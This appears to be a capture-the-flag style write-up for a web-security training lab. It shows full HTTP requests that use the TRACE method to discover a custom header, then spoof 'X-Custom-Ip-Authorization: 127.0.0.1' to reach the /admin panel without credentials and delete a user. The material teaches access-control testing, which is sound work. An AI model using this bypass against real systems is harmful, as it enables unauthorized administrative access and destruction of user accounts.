




## Lab Description :


## Solution :

#### Analysing the login functionality -

After login with user wiener, catch the request my-account


####  HTTP methods

Replace above request with `TRACE` method and user `carlos`

All the headers gave nothing interesting in response except **TRACE**.

The  request sent is as follows

```http
TRACE /my-account?id=carlos HTTP/2
Host: 0a6c00fb03756caa8086766100e6003d.web-security-academy.net
Cookie: session=h2Wm1oQgWbVWGFeDWP3yCBxd6gJzHgTT
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0a6c00fb03756caa8086766100e6003d.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

The response with `TRACE` http header was,



From the above response, we can understand that **X-Custom-IP-Authorization** header is supported . So we can use it in the request.

So if we spoof our IP as localhost, maybe sometimes the website will not validate it since it is coming from a trusted server. So by this way it will help us access the admin panel without admin credentials.

Now send another request to access `/admin` panel  with the X-Custom-Authorization header is localhost

```
X-Custom-Ip-Authorization: 127.0.0.1
```


```http
GET /admin HTTP/2
Host: 0a6c00fb03756caa8086766100e6003d.web-security-academy.net
Cookie: session=h2Wm1oQgWbVWGFeDWP3yCBxd6gJzHgTT
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0a6c00fb03756caa8086766100e6003d.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Custom-Ip-Authorization: 127.0.0.1
```
In the reponse we get the href link to delete user carlos .


Again one last time, send a *POST* request to `/admin/delete?username=carlos` endpoint (along with the custom header) to delete user carlos & Solve the lab.

## Result

